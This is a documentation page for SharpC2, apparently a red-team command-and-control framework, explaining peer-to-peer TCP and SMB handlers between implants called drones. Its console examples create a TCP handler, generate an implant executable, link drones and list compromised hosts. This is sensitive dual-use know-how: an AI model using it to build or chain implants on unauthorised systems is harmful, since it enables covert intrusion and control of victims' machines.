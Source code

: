 # Peer-to-Peer

SharpC2 has built-in TCP & SMB handlers for peer-to-peer C2 between drones.  The handlers don't run on the team server, so the `start` command doesn't actually do anything for these.  They simply acts as templates for payload generation.

```text
[handlers] > create demo-tcp TCP
[+] Handler "demo-tcp" created.

[handlers] > set demo-tcp BindPort 4444
[+] BindPort set to 4444

[handlers] > set demo-tcp LocalhostOnly true
[+] LocalhostOnly set to true
```

```
[drones] > payload demo-tcp Exe /tmp/tcp-drone.exe
[+] 164352 bytes saved.
```

TCP and SMB drones can be connected to using the `connect` and `link` commands respectively.

```text
[ba60b4aac6] > connect localhost 4444
[+] Tasked Drone to run connect.
[+] Drone checked in.  Sent 192 bytes.
[+] Drone task 758e24e2d9 has completed.
[+] Drone 87fe8b8650 checked in from Daniel@Ghost-Canyon.
```

```text
[drones] > list

Guid        Parent      Address        Hostname      Username  Process     Pid    Integrity  Arch  LastSeen
----        ------      -------        --------      --------  -------     ---    ---------  ----  --------
ba60b4aac6  -           192.168.1.229  Ghost-Canyon  Daniel    http-drone  21964  Medium     x64   24/11/2021 20:23:56
87fe8b8650  ba60b4aac6  192.168.1.229  Ghost-Canyon  Daniel    smb-drone   2988   Medium     x64   24/11/2021 20:23:36
```